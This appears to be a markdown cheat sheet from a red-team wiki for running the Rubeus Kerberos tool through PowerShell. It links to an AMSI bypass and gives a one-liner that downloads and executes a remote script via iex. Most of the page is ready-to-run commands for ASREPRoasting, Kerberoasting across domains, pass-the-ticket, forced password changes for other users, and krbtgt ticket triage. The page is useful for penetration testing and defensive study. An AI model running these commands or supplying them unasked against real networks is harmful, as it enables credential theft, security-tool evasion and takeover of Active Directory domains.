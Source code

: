 # References
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
> **Warning**
> [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## ASREPRoast with specified credentials
```powershell
Invoke-Rubeus 'asreproast /outfile:asreproast.<domain>.txt /format:hashcat /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Kerberoast
### Kerberoast for the current domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat'
```

### Kerberoast for a trusted domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /domain:<trusted domain> /dc:<trusted DC>'
```

### Kerberoast from non-joined domain machine
```powershell
Invoke-Rubeus 'kerberoast /outfile:kerberoast.<domain>.txt /format:hashcat /creduser:<domain.local>\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

### List statistics about found Kerberoastable accounts without actually sending ticket requests
```powershell
Invoke-Rubeus 'kerberoast /stats /creduser:<domain>.local\<user> /credpassword:<pass> /dc:<dc> /domain:<domain>'
```

## Reqest and pass a TGT ticket to the current session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain> /ptt'
```

## Request a TGT ticket and create a network only session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain.local> /dc:<dc>.<domain.local> /ptt /nowrap /createnetonly:"C:\Windows\System32\cmd.exe" /show'
```

## Change password for another user using kerberos ticket
```powershell
Invoke-Rubeus 'asktgt /user:<user_can_change_passwords> /changepw /rc4:<hash> /domain:<domain> /outfile:<user_can_change_passwords>.ticket'
Invoke-Rubeus 'changepw /ticket:<user_can_change_passwords>.ticket /new:<new_password> /targetuser:<domain.local>\<user_to_change_password> /dc:<dc>.<domain>.local'
```

## List all tickets filter by service krbtgt
```powershell
Invoke-Rubeus 'triage /service:krbtgt'
```
